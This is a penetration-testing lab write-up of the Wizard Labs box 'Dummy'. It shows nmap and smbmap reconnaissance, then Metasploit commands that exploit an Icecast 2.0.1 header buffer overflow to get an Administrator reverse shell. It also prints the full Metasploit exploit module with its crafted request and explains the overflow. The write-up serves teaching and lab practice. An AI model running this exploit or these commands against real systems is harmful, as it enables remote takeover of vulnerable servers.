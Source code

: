 ```yaml
---
layout: post
title: Wizard Labs - Dummy
categories: wizard-labs
image: /wizardlabs/dummy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is my write-up about Dummy from [Wizard Labs](https://labs.wizard-security.net/). If you don't know them , They are a new penetration testing lab, They have 16 boxes so far and Dummy is their first box to retire. This lab is nice I definitely recommend checking it out. Dummy is a windows box and it was an easy one (Difficulty: 2/10). It had an http service which was vulnerable to a buffer overflow , and metasploit had a module for it so this box can be done easily through metasploit . I will show that, then we will take a look at the exploit and how it's happening. The ip of the box is 10.1.1.13 so let's jump right in.
![](/images/wizardlabs/dummy/0.png)
<hr>
### Nmap
#### As we always do we will start by scanning the box with nmap , so :
`nmap -sV -sT -sC 10.1.1.13`
![](/images/wizardlabs/dummy/1.png)
#### We see a lot of open ports , most of the http ports are running Microsoft HTTPAPI, we will ignore that and look at other things. We also see that the box has smb which is an interesting thing to look at so let's try smbmap
`smbmap -H 10.1.1.13`
![](/images/wizardlabs/dummy/2.png)
#### And we immediately get Access Denied so smb is not helpful here.
#### On port 8000 there's an http server and it's not running Microsoft HTTPAPI , it's running [Icecast streaming media server](http://icecast.org/). Let's check that port
<br>
<hr>
### Icecast
![](/images/wizardlabs/dummy/3.png)
#### If we go to that port we get a 404 response which is odd. We can try bruteforcing directories with dirbuster but that won't help too much.
#### By searching online we will find that an old version of icecast had a buffer overflow vulnerability which allowed for a remote command execution (RCE). And we also find a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header) . So let's open metasploit and search for icecast modules.
<br>
<hr>
### Metasploit
#### By doing `search icecast` we will find the module , and it's an exploit from 2004. 
![](/images/wizardlabs/dummy/4.png)
`use windows/http/icecast_header`
<br>
`set LHOST 10.253.xx.xx`
<br>
`set RHOST 10.1.1.13`
<br>
`exploit`
![](/images/wizardlabs/dummy/5.png)
#### And we got a meterpreter session. we can drop a shell by typing `shell` then if we type `whoami` we will find that we are already Administrator so no need for privilege escalation
![](/images/wizardlabs/dummy/6.png)
#### Then we can grab the flags 
![](/images/wizardlabs/dummy/7.png)
<hr>
### Header Overwrite
#### So now we did the box , but let's understand the exploit. basically it's a buffer overflow vulnerability, it happens because that version of icecast only accepted a maximum of 32 headers in the HTTP request , so if a request had 32 headers this caused the return address of the vulnerable function to be overwritten with a pointer to the begining of the header number 32. this means that anything we add as the 32nd header will be executed
#### So if we make a request with 31 headers and add shellcode as the 32nd header we can get a reverse shell and that's what metasploit is doing. But if we look at the [source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/icecast_header.rb) of the module :
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Icecast Header Overwrite',
      'Description'    => %q{
        This module exploits a buffer overflow in the header parsing of icecast
        versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32
        HTTP headers will cause a write one past the end of a pointer array. On
        win32 this happens to overwrite the saved instruction pointer, and on
        linux (depending on compiler, etc) this seems to generally overwrite
        nothing crucial (read not exploitable).

        This exploit uses ExitThread(), this will leave icecast thinking the
        thread is still in use, and the thread counter won't be decremented.
        This means for each time your payload exits, the counter will be left
        incremented, and eventually the threadpool limit will be maxed. So you
        can multihit, but only till you fill the threadpool.
      },
      'Author'         => [ 'spoonm', 'Luigi Auriemma <aluigi[at]autistici.org>' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-1561'],
          [ 'OSVDB', '10406'],
          [ 'BID', '11271'],
          [ 'URL', 'http://archives.neohapsis.com/archives/bugtraq/2004-09/0366.html'],
        ],
      'Privileged'     => false,
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread',
        },
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => "\x0d\x0a\x00",
          'DisableNops' => true,
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', { }],
        ],
      'DisclosureDate' => 'Sep 28 2004',
      'DefaultTarget' => 0))

    register_options(
      [
        Opt::RPORT(8000)
      ])
  end

  # Interesting that ebp is pushed after the local variables, and the line array
  # is right before the saved eip, so overrunning it just by 1 element overwrites
  # eip, making an interesting exploit....
  # .text:00414C00                 sub     esp, 94h
  # .text:00414C06                 push    ebx
  # .text:00414C07                 push    ebp
  # .text:00414C08                 push    esi

  def exploit
    connect

    # bounce bounce bouncey bounce.. (our chunk gets free'd, so do a little dance)
    # jmp 12
    evul = "\xeb\x0c / HTTP/1.1 #{payload.encoded}\r\n"
    evul << "Accept: text/html\r\n" * 31;

    # jmp [esp+4]
    evul << "\xff\x64\x24\x04\r\n"
    evul << "\r\n"

    sock.put(evul)

    handler
    disconnect
  end
end

```
#### There's not much detail because it's based on metasploit so luckily I found this [refrence](https://securitytracker.com/id/1011439) which had a poc c code. 
#### By looking at this part of the code :
![](/images/wizardlabs/dummy/8.png)
#### We can see how the exploit is working. It's doing a GET request , adding 31 "a"s as headers , then the 32nd header is the shellcode.
#### If you want to know more about bufferOverFlows check out my [other articles](/categories)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<hr>

